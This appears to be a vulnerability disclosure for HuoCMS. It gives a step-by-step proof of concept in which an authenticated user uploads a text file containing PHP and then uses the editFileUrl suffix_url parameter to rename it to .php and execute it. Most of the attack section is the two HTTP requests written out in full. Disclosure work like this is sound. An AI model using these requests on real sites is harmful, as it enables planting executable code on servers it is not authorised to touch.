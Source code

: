 Source Code Address:  https://gitee.com/digital-flag/huocms

Tips:  This vulnerability is a backend issue. To reproduce it, you need to set up the environment, log in to the backend, obtain a token, and then use the token for invocation.

app ->controller ->backend -> AttachmentController.php:editFileUrl()

In the `editFileUrl` method, the suffix of `$newPathUrl` used in the `copy` function is not validated against a whitelist. This vulnerability can be exploited to modify the filename, as the suffix is controlled by the `suffix_url` parameter, which is controllable.


![image](https://github.com/user-attachments/assets/5cc40ef7-0d5f-4249-837f-5159475c2cee)

Step 1: Upload a file with a whitelisted suffix that contains malicious content in advance, and record the file ID at the same time.
```
POST /attachment/uploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization:  token
Content-Type: multipart/form-data; boundary=----geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Length: 581
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin.php/Index/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="type"

2
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="attachment_cate_id"

0
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="reduce_img"


------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

<?php
echo "hello word!"
?>
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9--
```
![image](https://github.com/user-attachments/assets/aef0412a-b5a5-4253-b582-61b84735ad69)


Based on the content, the ID is determined to be 67.


Step 2: Then construct a request based on the editFileUrl, rename the one with id 67, where the copy function in the vulnerability's editFileUrl is called to rename the file with an illegal suffix.

```
POST /attachment/editFileUrl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: token
Content-Length: 83
Origin: http://127.0.0.1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=67&name=test&prefix_url=&suffix_url=file/20250416/test.php&description=123123123
```
![image](https://github.com/user-attachments/assets/f1dd77b0-c2ad-46aa-ae31-50da63c86375)


Note: To modify it again, you need to change the filename of `suffix_url` to bypass the `copy` function triggered by `$oldPathUrl != $newPathUrl` inside `editFileUrl`.


Access URL:  http://127.0.0.1/storage/file/20250416/test.php


![image](https://github.com/user-attachments/assets/5f1cdc2f-ef6a-459d-bdd5-7d8d7d550626)


